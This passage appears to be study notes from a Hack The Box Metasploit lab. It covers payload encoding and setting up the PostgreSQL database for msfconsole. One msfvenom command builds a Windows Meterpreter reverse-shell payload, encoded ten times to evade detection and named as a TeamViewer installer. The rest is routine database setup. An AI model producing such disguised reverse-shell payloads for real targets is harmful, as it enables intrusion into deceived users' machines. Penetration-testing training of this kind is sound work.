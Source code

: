 One better option would be to try running it through multiple iterations of the same Encoding scheme:

```shell-session
ElFelixi0@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

## Databases

`Msfconsole` has built-in support for the PostgreSQL database system. With it, we have direct, quick, and easy access to scan results with the added ability to import and export results in conjunction with third-party tools.

Here are the steps to set up our DB ->

1. ensure that the PostgreSQL server is up and running on our host machine.

```shell-session
ElFelixi0@htb[/htb]$ sudo service postgresql status
```

2. Start PostgreSQL

```shell-session
ElFelixi0@htb[/htb]$ sudo systemctl start postgresql
```

3. create and initialize the MSF database with `msfdb init`.

```shell-session
ElFelixi0@htb[/htb]$ sudo msfdb init
```

If we have an error it may be good to do a `apt update`

After the database has been initialized, we can start `msfconsole` and connect to the created database simultaneously.

```shell-session
ElFelixi0@htb[/htb]$ sudo msfdb run
```

however, we already have the database configured and are not able to change the password to the MSF username, proceed with these commands:

```shell-session
ElFelixi0@htb[/htb]$ msfdb reinit
ElFelixi0@htb[/htb]$ cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
ElFelixi0@htb[/htb]$ sudo service postgresql restart
ElFelixi0@htb[/htb]$ msfconsole -q
```

Then we can look at what is available to us ->

```shell-session
msf6 > help database
```

Once everything is up we can organize our `Workspaces`.
